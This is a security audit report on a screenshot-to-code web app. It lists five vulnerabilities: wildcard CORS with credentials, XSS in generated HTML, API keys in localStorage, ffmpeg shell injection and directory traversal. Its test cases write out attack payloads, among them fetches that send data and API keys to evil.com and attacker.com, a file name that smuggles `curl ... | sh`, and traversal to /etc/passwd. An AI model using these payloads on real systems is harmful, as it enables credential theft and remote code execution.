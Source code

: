 **VULNERABILITIES**

### 1. **Insecure CORS Configuration**
- **Description**: The backend explicitly allows all origins (`allow_origins=["*"]`) in CORS middleware. This enables any website to make cross-origin requests to the API, potentially enabling CSRF attacks and data theft.
- **Impact**: Attackers could steal sensitive data (e.g., API keys, user session data) or perform unauthorized actions on behalf of authenticated users.
- **Rank**: High
- **Current Mitigations**: None implemented in CORS configuration.
- **Missing Mitigations**:
  - Origin allowlist validation
  - Credentials flag restriction
  - CORS policy hardening for sensitive endpoints
- **Preconditions**: Attacker must lure a user to a malicious website while authenticated.
- **Source Analysis**:
  - File: `backend/main.py`
  - Code:
    ```python
    app.add_middleware(
        CORSMiddleware,
        allow_origins=["*"],  # <- Vulnerable configuration
        allow_credentials=True,
        allow_methods=["*"],
        allow_headers=["*"],
    )
    ```
  - The wildcard origin combined with credentials allowance enables cross-origin attacks.
- **Test Case**:
  1. Host malicious page at `evil.com` with JavaScript:
     ```javascript
     fetch('https://target-app.com/api/user', {credentials: 'include'})
       .then(response => response.json())
       .then(data => exfiltrate(data));
     ```
  2. Trick authenticated user into visiting `evil.com`
  3. Capture sensitive user data from API response

---

### 2. **XSS Risk in AI-Generated Code**
- **Description**: Generated HTML includes unsanitized user inputs and unsafe DOM manipulation patterns (e.g., direct jQuery injection).
- **Impact**: Attacker-controlled inputs could execute arbitrary JavaScript in victims' browsers, leading to account takeover.
- **Rank**: High
- **Current Mitigations**: No output encoding or input validation in code generation.
- **Missing Mitigations**:
  - Context-aware HTML escaping
  - CSP headers with script-source restrictions
  - Safe DOM manipulation practices
- **Preconditions**: Attacker can influence image/screenshot content used for code generation.
- **Source Analysis**:
  - File: `backend/mock_llm.py` (Generated Code Example)
  - Vulnerable Patterns:
    ```html
    <!-- User-controlled input injection -->
    <input value="{{ user_input }}">  <!-- No escaping -->

    <!-- Unsafe jQuery usage -->
    <script>
      $('#output').html(userControlledContent);  <!-- Direct DOM injection -->
    </script>
    ```
- **Test Case**:
  1. Submit image containing hidden text: `"><img src=x onerror=stealCookies()>`
  2. Generate application code from image
  3. Observe unescaped HTML in rendered page
  4. Verify cookie exfiltration when victim views page

---

### 3. **Sensitive Data Exposure in Client-Side Storage**
- **Description**: API keys stored unencrypted in browser localStorage, accessible via XSS.
- **Impact**: Compromise of expensive LLM API credentials and potential account takeover.
- **Rank**: High
- **Current Mitigations**: None - keys persist in localStorage.
- **Missing Mitigations**:
  - Secure HTTP-only cookie storage
  - Backend proxy for API calls
  - Key rotation mechanism
- **Preconditions**: Existence of any XSS vector in application.
- **Source Analysis**:
  - File: `frontend/src/storage.js`
  - Code:
    ```javascript
    localStorage.setItem('OPENAI_API_KEY', key);  // Unprotected storage
    ```
  - README.md states: "Your key remains in browser storage"
- **Test Case**:
  1. Find XSS vulnerability in application UI
  2. Craft payload:
     ```javascript
     fetch('https://attacker.com/log?key='+localStorage.OPENAI_API_KEY)
     ```
  3. Induce victim to execute payload
  4. Capture exfiltrated API key

---

### 4. **Unrestricted File Processing in Video Conversion**
- **Description**: Video processing uses shell commands without input validation or sandboxing.
- **Impact**: Arbitrary command execution via malicious file uploads.
- **Rank**: Critical
- **Current Mitigations**: No file type/size validation.
- **Missing Mitigations**:
  - File signature verification
  - Dockerized processing environment
  - Input size limits
- **Preconditions**: Attacker can upload files to conversion endpoint.
- **Source Analysis**:
  - File: `backend/video_to_app.py`
  - Code:
    ```python
    subprocess.run(f"ffmpeg -i {user_uploaded_path}", shell=True)  # Shell injection risk
    ```
  - Accepts any file type without validation
- **Test Case**:
  1. Create video file named `; curl https://attacker.com/payload.sh | sh;.mp4`
  2. Upload via conversion endpoint
  3. Observe reverse shell connection from server

---

### 5. **Directory Traversal in File Handling**
- **Description**: User-controlled `folder` parameter allows access to arbitrary server paths.
- **Impact**: Disclosure of sensitive system files (e.g., /etc/passwd, application secrets).
- **Rank**: High
- **Current Mitigations**: No path sanitization.
- **Missing Mitigations**:
  - Path normalization
  - Jail to allowed directory
  - Input validation
- **Preconditions**: Attacker can make API requests to /evals endpoint.
- **Source Analysis**:
  - File: `backend/routes/evals.py`
  - Code:
    ```python
    @router.get("/evals")
    def get_evals(folder: str):
        target_path = Path(folder)  # User-controlled path
        return list_files(target_path)
    ```
- **Test Case**:
  1. Send request: `GET /evals?folder=../../../../etc/passwd`
  2. Observe server response containing system password file
  3. Repeat with `../../../proc/self/environ` to leak environment variables
